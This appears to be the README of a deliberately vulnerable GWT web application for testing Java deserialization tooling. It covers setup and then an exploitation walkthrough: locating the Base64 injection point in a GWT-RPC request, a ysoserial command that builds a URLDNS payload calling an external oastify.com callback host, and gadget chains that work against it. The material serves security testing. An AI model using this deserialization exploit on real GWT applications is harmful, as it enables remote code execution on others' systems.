


# Vulnerable GWT Web Application

This is a version of [the StockWatcher example application described in the GWT getting-started guide](https://www.gwtproject.org/doc/latest/tutorial/gettingstarted.html) that has been modified to use the GWT "enhanced classes" feature, making it vulnerable to a Java deserialization attack. It should only be used for testing detection and exploitation tooling. Enhanced classes are commonly used in real-world GWT-based applications, but until the publication of this example, there were no easily-located open source web applications that security professionals could use to validate their tooling and procedures.

[Exploiting GWT-based applications is discussed in the Bishop Fox blog post "GWT: An Eight-Year-Old Unpatched Java Deserialization Vulnerability"](https://bishopfox.com/blog/gwt-unpatched-unauthenticated-java-deserialization-vulnerability).

# Running the web application

To run the web application, you'll need a Linux system with the following tools:

* The full version of the OpenJDK 11 JRE, *not* the headless version - e.g. on Debian-based distributions, install the `openjdk-11-jre` package
* `ant` (install using your distribution's package manager)
* [Version 2.10.0 of the GWT SDK](https://www.gwtproject.org/download.html)

## Quick start

The application requires a number of JAR files that are too large to include directly in GitHub source control, so the easiest way to get started is to download the latest package from [the releases page](releases), and unpack it.

Once you've unpacked the release, edit this line in `build.xml` to replace `/home/user/GWT/gwt-2.10.0` with your GWT SDK directory:

<property name="gwt.sdk" location="/home/user/GWT/gwt-2.10.0" />

From within the source code directory, run the following commands:

```
ant build
ant devmode
```

This will launch the vulnerable web application and make it accessible at `http://127.0.0.1:8888/StockWatcher.html`.

Note that if you are forwarding traffic to the local service to make it accessible remotely, you should also forward port 9876 in addition to 8888.

## Running directly from the code in this repo

If you want to clone this repo and run the application without downloading a release, you'll need to download and add the following third-party JAR files into the `lib` directory after cloning it:

* [aspectjweaver-1.9.2.jar](https://repo1.maven.org/maven2/org/aspectj/aspectjweaver/1.9.2/)
* [commons-collections-3.2.2.jar](https://repo1.maven.org/maven2/commons-collections/commons-collections/3.2.2/)
* [javax.persistence.jar](http://www.java2s.com/Code/Jar/j/Downloadjavaxpersistencejar.htm)
* [jboss-as-connector-7.1.3.final.jar](https://mvnrepository.com/artifact/org.jboss.as/jboss-as-connector/7.1.3.Final)
* [jdo-api-3.2.1.jar](https://mvnrepository.com/artifact/javax.jdo/jdo-api/3.2.1)
* [jpa-annotations-source.jar](https://code.google.com/archive/p/wmc-toools/source/default/source?page=15)
* [junit-vintage-engine-5.10.0.jar](https://mvnrepository.com/artifact/org.junit.vintage/junit-vintage-engine/5.10.0)
* [jython-standalone-2.7.3.jar](https://www.jython.org/download.html)

You'll also need to copy the following GWT JAR files from your GWT directory (e.g. `gwt-2.10.0/`) to the `lib` directory for this vulnerable application:

* `gwt-dev.jar`
* `gwt-servlet.jar`
* `gwt-user.jar`
* `validation-api-1.0.0.GA.jar`
* `validation-api-1.0.0.GA-sources.jar`

After copying all of those JAR files, perform the other steps from the quick start section, above.

# Exploiting the web application

Using a web browser configured to connect through an intercepting proxy (such as Burp Suite), load the URL `http://127.0.0.1:8888/StockWatcher.html`.

The page will initially display a "compiling" message. Wait until it displays this basic form:



Enter a short string in the field, such as `BFOX`, then click the *Add* button. The page should begin displaying random updates for the simulated stock symbol:



In your intercepting proxy history, note that your browser is now repeatedly sending `POST` requests to `http://127.0.0.1:8888/stockwatcher/checkCustomClass1`, similar to the following:

```
POST /stockwatcher/checkCustomClass1 HTTP/1.1
Host: 127.0.0.1:8888
...omitted for brevity...

7|0|10|http://127.0.0.1:8888/stockwatcher/|259823D3B8B1029302496D0C7E009509|com.google.gwt.sample.stockwatcher.client.CheckCustomClassService|checkCustomClass1|com.google.gwt.sample.stockwatcher.client.CustomClass1/1972642674|rO0ABXcEAAAAAA==|com.google.gwt.sample.stockwatcher.client.CustomClass2/69504871|java.sql.Date/730999118|string1 value: 12345|string2 value: 98765|1|2|3|4|1|5|5|6|7|6|0|0|8|P___i17vzAA|0|9|10|
```

The Base64-encoded binary data `rO0ABXcEAAAAAA==` is a vulnerable injection point in the request. To exploit the web application, you'll need to generate a replacement payload. For example, to generate a `URLDNS` payload using [Bishop Fox's customized version of ysoserial](https://github.com/BishopFox/ysoserial-bf), you could execute the following command:

```
$ java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar \
  --gwt bishopfox \
  URLDNS "https://dvc5ng8w4odw47m0a8qk45hdv41vpndc.oastify.com/URLDNS" \
  | base64 -w0 | sed 's/+/\$/g' | sed 's./._.g' > gwt_urldns.bin.gwt_b64
```

Send a modified version of the request that replaces `rO0ABXcEAAAAAA==` with your generated payload, and the vulnerable application should deserialize and trigger it. In addition to whatever action the payload causes, the response should also include a `NoSuchFieldException` related to the field name if the value was deserialized, e.g. using the `bishopfox` name from the example above:

```
HTTP/1.1 200 OK
Connection: close
...omitted for brevity...

//EX[2,1,["com.google.gwt.user.client.rpc.IncompatibleRemoteServiceException/3936916533","java.lang.NoSuchFieldException: bishopfox"],0,7]
```

If you used the prebuilt release of the vulnerable web application, or manually added all of the JARs referenced above to a custom build, you should (at a minimum) be able to use the following payloads against the web app:

* AspectJWeaver
* Jython2
* Jython3

At the time of this writing, the mainline version of `ysoserial` did not support GWT-formatted output, so please be sure to use the custom fork.
